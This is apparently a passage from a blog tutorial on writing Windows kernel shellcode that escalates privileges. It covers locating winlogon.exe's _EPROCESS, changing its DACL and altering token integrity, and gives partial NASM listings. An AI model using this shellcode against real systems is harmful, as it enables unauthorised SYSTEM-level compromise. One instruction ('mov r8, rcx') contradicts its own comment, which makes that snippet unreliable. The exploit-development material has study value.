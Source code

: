 ![](imgs/blog/1WindowsKernelShellcode/20250221204824.png)
Done

The shellcode needs to:
- Find the `_EPROCESS` of winlogon.exe by iterating through all `_EPROCESS` entries and comparing the first 4 characters ("winl")
- Modify the DACL, switching the SYSTEM SID to `Authenticated Users`
- Iterate over `_EPROCESS` again to modify the token and remove the high-integrity restriction

```python
0: kd> dt nt!_KTHREAD Process
   +0x220 Process : Ptr64 _KPROCESS
```

```nasm
BITS 64

section .text

	nop

	mov r8, qword [gs:0x188]					; Get _KTHREAD Address into r8
	mov r8, qword [r8 + 0x220]					; Get _EPROCESS Address
	mov r8, rcx									; save Exploit process' _EPROCESS structure on rcx
...
```

Now we loop to find the process by name:
```nasm
...
	loop1:
		mov r8, qword [r8 + 0x448]				; move the flink into r8
		sub r8, 0x448							; go back to the start of the struct
		cmp dword [r8+0x5a8], 0x6C6E6977		; compare if it is equal to the first 4 characters "winl" (little endiand so "lniw")
		jnz loop1
...
```
